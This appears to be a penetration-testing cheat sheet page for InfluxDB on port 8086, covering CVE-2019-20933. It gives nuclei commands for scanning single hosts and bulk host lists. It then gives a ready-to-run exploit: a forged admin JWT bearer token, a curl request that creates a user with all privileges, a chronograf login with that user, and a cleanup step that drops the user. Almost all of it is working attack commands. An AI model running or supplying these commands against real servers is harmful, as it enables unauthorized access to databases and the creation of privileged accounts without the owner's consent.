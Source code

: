 # 8086 - InfluxDB

## Potential Risks

### CVE-2019-20933 (Unauthorized Access)

```yaml
# https://github.com/yuukisec/iPoCs
nuclei -t ~/ipocs -id influxdb-unauth -u localhost:8086

# Bulk testing
nuclei -t ~/ipocs -id influxdb-unauth -l hosts.txt -c 100 -bs 100
```

## Exploiting

### Information Disclosure

```bash
# Create user
URL=http://localhost:8086
AUTH="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyNTM0MDIxODU2MDB9.Fu66RZDcUSawPpmtCpVDMr8kWjbTgmBa4I1kFzCLxM8"
BODY=q="CREATE USER \"santaClaus\" with PASSWORD '1qaz@WSX3edc' WITH ALL PRIVILEGES;"
curl -X POST -H $AUTH -d $BODY $URL/query

# https://github.com/influxdata/chronograf
chronograf --influxdb-url="$URL" \
    --influxdb-username="santaClaus" \
    --influxdb-password="1qaz@WSX3edc"

BODY=q="DROP USER \"santaClaus\";"
curl -X POST -H $AUTH -d $BODY $URL/query
```
